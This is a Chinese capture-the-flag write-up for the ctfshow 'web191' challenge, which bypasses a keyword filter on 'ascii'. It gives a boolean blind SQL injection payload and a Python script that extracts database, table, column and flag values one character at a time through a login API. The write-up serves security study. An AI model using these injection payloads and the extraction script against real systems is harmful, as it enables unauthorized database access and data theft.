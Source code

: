 ## web191 过滤ascii 的布尔盲注

```php
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

出现过滤了 这里过滤了 ascii 我们看看怎么搞

其实这里换个payload即可

```csharp
admin' and if(substr((select database()),1,1)='c',0,1)
```

这里即可

但是这里有个bug  就是_会被识别为{

```cobol
import requests
 
url = "http://36a0d4e4-0612-48f3-9a51-e5b0b2b598ce.challenge.ctf.show/api/"
 
# payload = "admin' and if(substr((select database()),{0},1)>'{1}',0,1)-- +"
# payload = "admin' and if(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1)>'{1}',0,1)-- +"
# payload = "admin' and if(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{0},1)>'{1}',0,1)-- +"
payload = "admin' and if(substr((select group_concat(id,'---',f1ag)from ctfshow_fl0g),{0},1)>'{1}',0,1)-- +"
flag =''
for i in range(1,100):
    high = 128
    low =32
    mid = (high+low)//2
    while(high>low):
        payload1= payload.format(i,chr(mid))
        # print(payload1)
        data ={
            'username':payload1,
            'password':0
        }
        re = requests.post(url =url ,data = data)
        # print(re.text)
        if r"\u7528\u6237\u540d\u4e0d\u5b58\u5728"  in re.text:
            low = mid + 1
        else:
            high = mid
        mid = (high+low)//2
        if chr(mid)== " ":
            break
    flag+=chr(mid)
    # print(flag.lower().replace('{','_'))
    print(flag.lower())
    if chr(mid) == "}":
        exit()
```
